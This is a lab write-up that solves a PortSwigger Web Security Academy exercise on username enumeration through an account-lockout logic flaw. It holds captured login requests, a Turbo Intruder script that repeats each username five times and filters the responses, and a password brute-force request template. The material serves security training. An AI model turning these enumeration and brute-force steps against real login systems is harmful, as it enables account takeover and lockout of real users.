 # Lab Description

## Lab: Username enumeration via account lock

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

# Lab Solution


HTTP Request in the intruder with the username as a payload

```
POST /login HTTP/1.1
Host: 0a9f007a03cc92fd80593a7900980004.web-security-academy.net
Cookie: session=GtD0ZghEpRTHhcpnPchp5xRDadQCI0D4
Content-Length: 29
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9f007a03cc92fd80593a7900980004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9f007a03cc92fd80593a7900980004.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=%s&password=admin
```


Edited turbointruder script to not show results which contain Invalid username or password. If the response is different, account got locked.

Also multiplied each word in worlist 5 times.

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/home/mexie/Documents/Learning/Certs/Portswigger/portswigger-web-security-academy/02. Authentication/usernames.txt'):
        for i in range(5):
            engine.queue(target.req, word.rstrip())

def NotMatchRegex(regex):
    m = re.compile(unicode(regex), re.UNICODE|re.DOTALL|re.MULTILINE|re.IGNORECASE)
    def decorator(func):
        def handleResponse(req, interesting):
            if not m.match(req.response):
                func(req, interesting)
        return handleResponse
    return decorator

@NotMatchRegex(r".*Invalid username or password.*")
def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

Password bruteforce test

```
POST /login HTTP/1.1
Host: 0a9e0085040b06c68036df35008b008f.web-security-academy.net
Cookie: session=GtD0ZghEpRTHhcpnPchp5xRDadQCI0D4
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9e0085040b06c68036df35008b008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9e0085040b06c68036df35008b008f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=announcements&password=%s
```
input_file="input.txt"; output_file="output.txt"; echo "\"password\" : [" > "$output_file"; while IFS= read -r word; do echo "    \"$word\"," >> "$output_file"; done < "$input_file"; echo "]" >> "$output_file"

```
```
